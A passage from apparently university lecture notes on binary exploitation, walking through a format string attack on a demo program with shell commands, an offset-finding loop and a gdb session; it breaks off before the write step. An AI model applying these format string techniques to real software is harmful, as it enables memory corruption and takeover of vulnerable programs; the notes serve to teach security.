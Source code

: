 This format output is essentially the same as what we've done before,
but I've added one extra format to the end.

``` {.example}
user@si485H-base:demo$ ./plain_fmt AAAABBBBCCCCDDDD%1\$008x.%1\$00x.%1\$008x.%1\$00x.%1\$008x.%1\$00x.%1\$008x.%1\$00x.%1\$#08x
AAAABBBBCCCCDDDDbffff724.bffff724.bffff724.bffff724.bffff724.bffff724.bffff724.bffff724.0xbffff724
```

That extra format, we'll align up to 0xdeadbeef:

``` {.example}
user@si485H-base:demo$ ./plain_fmt AAAABBBBCCCCDDDD%1\$008x.%1\$00x.%1\$008x.%1\$00x.%1\$008x.%1\$00x.%1\$008x.%1\$00x.%7\$#08x
AAAABBBBCCCCDDDDbffff724.bffff724.bffff724.bffff724.bffff724.bffff724.bffff724.bffff724.0xdeadbeef
```

This will be our target we'll write to. Now to align the rest of the
format.

``` {.example}
user@si485H-base:demo$ for i in `seq 1 1 200`; do echo -n "$i "; ./plain_fmt AAAABBBBCCCCDDDD%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%7\$#08x ; done | grep 41
41 AAAABBBBCCCCDDDDbffff724.2.bffff724.2.bffff724.2.bffff724.2.0xdeadbeef
74 AAAABBBBCCCCDDDDbffff724.b7fdd414.bffff724.b7fdd414.bffff724.b7fdd414.bffff724.b7fdd414.0xdeadbeef
123 AAAABBBBCCCCDDDDbffff724.41414141.bffff724.41414141.bffff724.41414141.bffff724.41414141.0xdeadbeef
141 AAAABBBBCCCCDDDDbffff724.252e7838.bffff724.252e7838.bffff724.252e7838.bffff724.252e7838.0xdeadbeef
```

And we see that at 123, we find the alignment we are looking for.

``` {.example}
user@si485H-base:demo$ ./plain_fmt AAAABBBBCCCCDDDD%1\$008x.%123\$00x.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
AAAABBBBCCCCDDDDbffff724.41414141.bffff724.42424242.bffff724.43434343.bffff724.44444444.0xdeadbeef
```

Determining where to write
--------------------------

Now, things get a bit sticky. We have the aligned format but we are not
entirely sure what address to replace the A's, B's, C's, and D's with.
Let's fire up gdb and see if we can learn something more about the
address alignment.

``` {.example}
(gdb) br main
Breakpoint 1 at 0x804849a: file plain_fmt.c, line 12.
(gdb) r AAAABBBBCCCCDDDD%1\$008x.%123\$00x.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x 
Starting program: /home/user/git/si485-binary-exploits/lec/21/demo/plain_fmt AAAABBBBCCCCDDDD%1\$008x.%123\$00x.%1\$008x.%124\$00x.%1\$008x.%125\$00x.%1\$008x.%126\$00x.%7\$#08x

Breakpoint 1, main (argc=2, argv=0xbffff6d4) at plain_fmt.c:12
12    int a = 0xdeadbeef;
```
